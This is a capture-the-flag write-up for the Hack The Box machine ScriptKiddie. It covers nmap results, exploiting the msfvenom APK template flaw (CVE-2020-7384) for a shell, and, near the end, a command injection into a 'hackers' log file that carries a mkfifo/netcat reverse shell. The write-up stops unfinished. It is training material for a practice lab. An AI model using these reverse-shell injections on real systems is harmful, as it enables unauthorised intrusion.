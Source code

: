 # CTF - [HTB ScriptKiddie](http://10.10.10.226:5000/)
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-title: k1d'5 h4ck3r t00l5
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<br/><br/>
Found a site with input fields that could be potential entry points.
<br/><br/>
![Screenshot at 2021-12-03 21-38-40](https://user-images.githubusercontent.com/59718043/144700412-347e85cf-7ea9-498c-807e-81c702acb9a0.png)
<br/><br/>
Another potential vulnerability: `Werkzeug/0.16.1 Python/3.8.5`.

<br/><br/>
Knowing that the site executes binaries from a Linux server, first I tried command injection on the input fields, but unfortunately that didn't work.<br/><br/>
![Screenshot at 2021-12-04 20-32-13](https://user-images.githubusercontent.com/59718043/144734995-99ddb895-5b05-4349-83a1-cea76b3c060d.png)

<br/><br/>
One of the executable programs on this web app is msfvenom. According to searchsploit, msfvenom is vulnerable to [CVE 2020-7384](https://www.exploit-db.com/exploits/49491).
```
└──╼ $searchsploit msfvenom                                                        │                             
------------------------------------------------- ---------------------------------│                   
 Exploit Title                                   |  Path                           │
------------------------------------------------- ---------------------------------│
Metasploit Framework 6.0.11 - msfvenom APK templ | multiple/local/49491.py         │
------------------------------------------------- ---------------------------------│
Shellcodes: No Results
```
<br/><br/>
Used this Metasploit module and ran it, which then returns an APK file that I used to upload to the site's msfvenom payload generator while my netcat is running. This gave me a shell.
<br/><br/>
```
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
10.10.10.226: inverse host lookup failed: Unknown host
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.226] 35390
id
uid=1000(kid) gid=1000(kid) groups=1000(kid)
```
<br/><br/>
The user.txt flag can be found under the usual user home directory (/home/<user>/).
 
There is another user `pwn`, the plan was to find a way to this account. I used a [secjuice]() resource for this part as I hit a roadblock. 
 ```
 $ nc -nvlp 4445
 ```
 This payload contains a reverse shell that we can push to the log file `hackers`. 
 ```
 echo "1 2 ;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 4445 >/tmp/f #" >> hackers
 ```
```
TO BE CONTINUED  
```
